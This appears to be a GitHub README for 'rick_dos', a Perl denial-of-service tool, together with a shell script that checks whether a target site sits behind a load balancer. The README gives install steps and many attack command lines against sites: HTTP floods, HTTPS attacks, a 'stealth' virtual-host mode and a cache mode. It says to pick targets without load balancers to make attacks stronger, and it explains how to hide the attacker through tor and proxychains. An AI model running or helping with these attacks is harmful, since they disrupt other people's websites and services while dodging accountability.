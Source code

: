 # rick_dos and Load Balancer Check
Tool Write in Perl to Make Denial of Service and Verify if Site have Load Balancer write in shell script

I recomend use Linux to make attack, this tool make SYN flood on DNS

To power up your Denial of Service Attack, use the Load Balancer checker, if the target doesn't have a load balancer configured, the chances of the attack increase significantly

#Install

```
git clone https://github.com/rickgds80/rick_dos.git

cd rick_dos
sudo chmod +x rickhack.pl rickhack_loadbalancer_check.sh
```

# dependencies
```
sudo apt-get install perl-doc
```

# usage:


**To power up your Denial of Service Attack, use the Load Balancer checker, if the target doesn't have a load balancer configured, the chances of the attack increase significantly

Load Balancer Check:

usage: ./rickhack_loadbalancer_check.sh [domain]
Dont use http or https in name of domain
usage: ./rickhack_loadbalancer_check.sh example.com

```
./rickhack_loadbalancer_check.sh example.com
```

![image](https://user-images.githubusercontent.com/38327991/158487328-fa3be986-7ae3-4033-878b-869acc2d381f.png)


If the target has a load balancer it will appear like this:

![image](https://user-images.githubusercontent.com/38327991/158487613-a44542aa-3604-4147-9974-1d418e3487be.png)



For Help:
```
perldoc ./rickhack.pl
```

For testting the program:
```
./rickhack.pl -dns www.example.com -port 80 -test
```


For HTTP Dos Attack:
```
./rickhack.pl -dns www.example.com -port 80 -timeout 2000 -num 500 -tcpto 5
```

Attack with httpready:
```
./rickhack.pl -dns www.example.com -port 80 -timeout 2000 -num 500 -tcpto 5 -httpready
```

Attack with stealth mode using virtualhost
```
./rickhack.pl -dns www.example.com -port 80 -timeout 30 -num 500 -tcpto 1 -shost www.virtualhost.com
```

Attack on sites with HTTPS, SSL
```
./rickhack.pl -dns www.example.com -port 443 -timeout 30 -num 500 -https
```

Attack with Cache
```
./rickhack.pl -dns www.example.com -port 80 -timeout 30 -num 500 -cache
```


# if you want executting the Attack in anonymous mode, you can combine with proxychains:

Install Dependencies:
```
sudo apt install tor
sudo apt install proxychains
```

Usage: 
tor and proxychains in front of rickhack.pl commands, like the example:
```
tor &
proxychains ./rickhack.pl -dns www.example.com -port 80 
```

![image](https://user-images.githubusercontent.com/38327991/158490018-1f08aa16-66f6-4645-b232-9e18a3a934ff.png)




# Glory to Ukraine!!!

![image](https://user-images.githubusercontent.com/38327991/158488171-b2d3fb1a-d100-4940-ac47-a9bd9dc0c2f0.png)
